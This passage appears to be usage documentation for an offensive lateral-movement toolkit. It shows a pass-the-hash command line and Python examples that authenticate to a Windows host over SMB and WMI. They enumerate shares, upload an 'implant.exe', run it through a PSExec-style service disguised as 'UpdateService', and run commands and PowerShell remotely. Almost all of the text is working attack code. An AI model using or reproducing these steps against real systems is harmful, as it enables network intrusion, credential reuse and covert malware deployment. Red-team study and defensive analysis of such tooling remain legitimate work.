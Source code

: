 ```bash
# Pass-the-hash
python lateral_movement/smb_wmi.py 192.168.1.100 -u admin \
  --hash aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c --test
```

**Python API:**

```python
from lateral_movement.smb_wmi import SMBExecution, WMIExecution

# SMB Execution
smb = SMBExecution(
    target='192.168.1.100',
    username='admin',
    password='Password123',
    domain='CORP'
)

# Test connection
if smb.test_connection():
    print("[+] SMB connection successful")

    # Enumerate shares
    shares = smb.enumerate_shares()
    print(f"[+] Found {len(shares)} shares")

    # Upload implant
    smb.upload_file('C:\\implant.exe', 'C$\\temp\\implant.exe')

    # Execute via PSExec-style service
    smb.psexec_execute('C:\\temp\\implant.exe', service_name='UpdateService')

# Pass-the-Hash
smb_pth = SMBExecution(
    target='192.168.1.100',
    username='admin',
    hash='aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c',
    domain='CORP'
)

if smb_pth.test_connection():
    print("[+] Pass-the-hash successful!")

# WMI Execution
wmi = WMIExecution(
    target='192.168.1.100',
    username='admin',
    password='Password123',
    domain='CORP'
)

# Execute command
output = wmi.execute_command('whoami')
print(output)

# Execute PowerShell
ps_script = '''
Get-Process | Where-Object {$_.CPU -gt 10} | Select-Object Name, CPU
'''
wmi.execute_powershell(ps_script)

# Get system information
info = wmi.get_system_info()
print(f"OS: {info['os']}")
```